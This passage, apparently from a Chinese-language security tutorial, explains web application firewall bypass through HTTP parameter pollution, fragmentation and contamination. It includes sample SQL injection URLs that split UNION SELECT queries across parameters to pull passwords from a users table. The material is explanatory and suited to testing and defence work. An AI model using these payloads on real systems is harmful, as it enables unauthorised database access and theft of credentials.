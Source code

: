 1.HPP(HTTP Parameter Polution)举例
  
`/?id=1;select+1&id=2,3+from+users+where+id=1—`
  
`/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users`
  

  
HPP又称做重复参数污染，最简单的就是?uid=1&uid=2&uid=3，对于这种情况不同的Web服务器处理方式如下
  
具体WAF如何处理要看其设置的规则，不过就示例中感觉最后一个来看有较大可能绕过
  
![waf1](../pictures/wafi1.png)
  

  
2.HPF(HTTP Parameter Fragment)
  
这种方法是HTTP分割注入，同CRLF略有相似之处(使用控制字符%0a、%0d等换行)
  
举例　
  
`/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--`
  
`select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—`
  

  
看完上面两个示例发现和HPP最后一个示例很像，不同之处在于参数不一样，这里是在不同的参数之间进行分割，结果到了数据库执行查询时再合并语句。
  

  
3.HPC(HTTP Parameter Contamination)
  
这一概念见于Beyond SQLi: Obfuscate and Bypass这里Contamination意为污染
  
RFC2396定义了如下一些字符
  
```
  
Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()  
  
Reserved : ; / ? : @ & = + $ ,  
  
Unwise : { } | \ ^ [ ] `
  
```
  

  
不同的Web服务器处理处理构造得特殊请求时有不同的逻辑
  
![waf2](../pictures/wafi2.png)
  

  
以魔术字符%为例，Asp/Asp.net会受到影响
  
![waf3](../pictures/wafi3.png)
  

  

  
### h) 缓冲区溢出(Advanced)
  